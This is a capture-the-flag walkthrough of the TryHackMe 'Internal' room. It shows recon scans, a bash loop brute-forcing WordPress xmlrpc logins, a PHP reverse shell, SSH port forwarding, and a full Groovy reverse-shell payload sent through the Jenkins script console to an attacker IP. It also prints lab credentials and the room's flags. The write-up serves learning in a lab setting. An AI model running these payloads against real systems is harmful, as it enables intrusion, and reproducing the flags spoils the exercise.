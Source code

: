 https://tryhackme.com/room/internal
# IP
```
10.10.21.13
```
# Reconaisance
## NMAP
```bash
nmap -p- -T4 10.10.21.13 -v
22/tcp    open     ssh
80/tcp    open     http

nmap -p22,80 -sS -sC -sV 10.10.21.13 -v
```
## Web
### dirb
```bash
dirb http://10.10.21.13/
# result
/blog
/phpmyadmin
```
### nikto
```bash
nikto -h 10.10.21.13
# result
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.21.13
+ Target Hostname:    10.10.21.13
+ Target Port:        80
+ Start Time:         2024-03-23 07:11:33 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5abef58e962a5, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /phpmyadmin/changelog.php: Uncommon header 'x-ob_mode' found, with contents: 1.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://internal.thm/blog/index.php/wp-json/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /blog/wp-login.php: Wordpress login found.
+ /wordpress/wp-login.php: Wordpress login found.
+ 8226 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2024-03-23 07:27:09 (GMT-4) (936 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

# intersting ones
/phpmyadmin
/wordpress/wp-links-opml.php -> WordPress/5.4.2
```
### /blog
`http://internal.thm/blog/index.php/2020/08/03/hello-world/` link may say that would be better to add host `internal.thm` to `/etc/hosts`. After doing it, website opens normally.
It is wordpress website.
### /phpmyadmin
login page
### Wordpress User Enum
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
Users: `http://internal.thm/blog/index.php/wp-json/wp/v2/users/`

it has one user and he is `admin`
### Brute Force
```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params>
<param><value>admin</value></param><param><value>pass</value></param></params></methodCall>" http://internal.thm/blog/xmlrpc.php
```
Simple script from gpt
```bash
#!/bin/bash
while IFS= read -r pass; do
echo $pass
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params>
<param><value>admin</value></param><param><value>$pass</value></param></params></methodCall>" http://internal.thm/blog/xmlrpc.php
done < "/usr/share/wordlists/rockyou.txt"
```
you will find that `admin:my2boys` is correct creds
# Rev Shell
https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php - PHP Reverse Shell
shell stabilization
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# ctrl+z
stty raw -echo; fg
```
# PrivEsc to user
checking `/opt`
```bash
www-data@internal:/opt$ ls
containerd  wp-save.txt
www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

```bash
aubreanna@internal:~$ l
jenkins.txt*  snap/  user.txt*
aubreanna@internal:~$ cat user.txt 
THM{int3rna1_fl4g_1}
```

```
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```
Forward traffic to local
```
ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.21.13 -N
```
# PrivEsc to root
Capture request in burp and brute force Jenkins. Creds: `admin:spongebob`

`http://localhost:8080/script` for rce
```java
Thread.start {
String host="10.8.97.245";
int port=1234;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

```
nc -lvnp 1234
```

```
jenkins@jenkins:/opt$ cd ~    
cd ~
jenkins@jenkins:~$ cd /opt
cd /opt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

```
root@internal:~# cat root.txt 
THM{d0ck3r_d3str0y3r}
```

